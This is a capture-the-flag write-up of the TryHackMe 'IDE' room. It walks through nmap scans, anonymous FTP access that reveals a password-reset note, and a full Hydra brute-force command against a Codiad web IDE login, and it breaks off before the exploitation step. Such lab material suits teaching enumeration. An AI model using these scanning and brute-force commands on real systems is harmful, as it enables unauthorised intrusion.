 # IDE  
![ide logo](imgs/ide_room_logo.png)

IDE, an easy box to polish your enumeration skills!

## Summary

  * Start Machine::
  * Find open ports using nmap
  * Access ports discovered
  * Where possible determine version of server software
  * Seek out publicly released known exploits
  * Once local access is achieved, escalate privileges to find all the flags

### 1. Nmap enumeration

I used an [**Aggressive**](https://nmap.org/book/vscan-examples.html) scan (the `-A` option), hoping to see slightly more verbose version detection. The `-T4` option can be used on the TryHackMe platform since the machines we attack are on a virtual private network using [private addressing space](https://en.wikipedia.org/wiki/Private_network#Private_IPv4_addresses). Tantamount to being on a LAN. In the field I would most likely reduce that to `-T3` or `-T2` to reduce the chance of being detected by an IDS or worse overwhelming a production server, spoiling my probe results. Before scanning I added an entry in `/etc/hosts` of my attack box to point my local resolver at the ip address I learned after the target box was started.

```console
# Nmap 7.92 scan initiated Sat Nov  6 22:10:06 2021 as: nmap -A -T4 -oA scans/nmap_init ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to <my attacker IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   106.56 ms 10.13.0.1
2   ... 3
4   241.81 ms ide.thm (10.10.64.67)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:10:48 2021 -- 1 IP address (1 host up) scanned in 42.41 seconds
```

I see some standard services:  

* FTP being served by vsFTPd 3.0.3 --> *always good to see version strings when we probe*
* SSH being served up by OpenSSH 7.6p1 --> *Not the most up to date or secure, but not grossly insecure*
* HTTP served up by Apache2 on Ubuntu --> *This turns out to be just the first httpd daemon running on this box*

The first two, FTP and SSH, are relatively stable and secure servers. Further probing by loading up the Apache homepage in a browser gives the appearance this is a distro specific  standard install. Hinted at by `http-title: Apache2 Ubuntu Default Page: It works`

![Default Page](imgs/screenshot_default_page.png)

In the rush to hack over a web port I neglected a feature of the ftp server `Anonymous FTP login allowed (FTP code 230)` that Nmap revealed. Let's fire up an ftp client and see what's publicly accessible. You never know what secrets got left out in the open.

#### Security through obscurity is **NO SECURITY** at all

A quick bout of Command Line Commando `ftp ide.thm` using credentials of username--> anonymous and leaving password blank drops us in the ftp directory. There we find a directory named `...`
```sh
cd ...
ftp> ls -lA
-rw-r--r--  1 0   0   151 Jun 18 06:11  -
```  
Now that's curious. Inside that oddly named directory is a file named `-` **dash**  

Let's grab it and see what's inside  

```txt
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```  

So, we'll keep this in our back pocket for now. A password got reset and instructions to use a **default password** to login somewhere. We also have two prospective users `john` and `drac` to tuck away inside a collection of usernames.

The topic of this room is "Enumeration" so let's look at the ports above the so called **privileged ports** aka higher than 1024  

```nmap
# Nmap 7.92 scan initiated Sat Nov  6 22:22:23 2021 as: nmap -sV -T4 -p 1024- -oN scans/nmap_above1024 ide.thm
Nmap scan report for ide.thm (10.10.64.67)
Host is up (0.24s latency).
Not shown: 64511 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov  6 22:31:06 2021 -- 1 IP address (1 host up) scanned in 523.21 seconds
```  

Loading this new url in our browser redirects us to a login page for [Codiad Web IDE](http://codiad.com). From a link to the [Github Repo](https://github.com/Codiad/Codiad) we see it is a web based IDE for code development that has made note it is no longer maintained.  Last commit was *Mar 21, 2020*.  
Capturing a login can be done with a proxy or easier still, using the dev tools in either Firefox or Chrome. In Firefox, what I prefer to use, open up the Network tab in DevTools before logging in so that the exchange is captured in the tool. Log in with credentials we can spot in the captured **POST** request that we'll save to a file for reference in the next step.  Click on the **POST** request in the Network tab, Click on Copy--->Copy Request Headers, paste that into a file. Then Copy-->Copy Post Data and paste that below the headers.  

```sh
POST http://ide.thm:62337/components/user/controller.php?action=authenticate HTTP/1.1
Host: ide.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5 --compressed
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Origin: http://ide.thm:62337
Connection: keep-alive
Referer: http://ide.thm:62337/
Cookie: f9c7294bc8f6035df784b56b800b122c=m9k8u4546g47no5uerg3kvjtr3

username=testuser&password=testpass&theme=default&language=en
```  

btw that's what our request looked like on the wire, so to speak, when it got sent over to Apache2.  We know the **Response** returned **JSON** from the headers returned ==> `Content-Type: application/json`. We now have all we need to attempt to brute-force a password on the Codiad Server on Port 62337

### 2. Hydra Password Enumeration

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is straight forward brute-forcing tool. Tell it the user or users and the password or list of passwords. Beyond that just give it an **IP** and protocol **method** and we're off to the races. For this Codiad server I will include a port number since **http** is usually served on port **80**.  
Command looks something like this  

`hydra -L <PATH TO USERLIST> -P <PATH TO PASSWORDS LIST> protocol-method://<$IP>$URL:<POST DATA>:<FAIL TEXT>`  

Looking for a quick easy win we'll use `probable-v2-top207.txt` from [Seclist](https://github.com/danielmiessler/SecLists) add an `-s $PORT#` since Apache2 is running on a non-standard port. Cram our POST DATA and Error Message in and off we go...

```console
hydra -L user.txt -P /usr/share/seclists/Passwords/probable-v2-top207.txt -s 62337 "http-post-form://ide.thm/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-08 14:52:29
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1035 login tries (l:5/p:207), ~65 tries per task
[DATA] attacking http-post-form://10.10.155.168:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect Username
[62337][http-post-form] host: 10.10.155.168   login: john   password: xxxxxxxx
```  

A few seconds later and we have valid credentials. User *`drac`* did reset the user *`john`* to a **well-known** default password.

### 3. Exploit and get Local Shell Access  
  * Find exploit using *searchsploit* on **Kali**
  * Edit the *sploit* to use our attacking host
  * Setup 3 terminals to implement the *sploit* chosen
  * Get **shell** , Escalate privilege using found credentials
  * Escalate to **SuperUser** and enjoy the ***PWNing***

  {To be continued...}
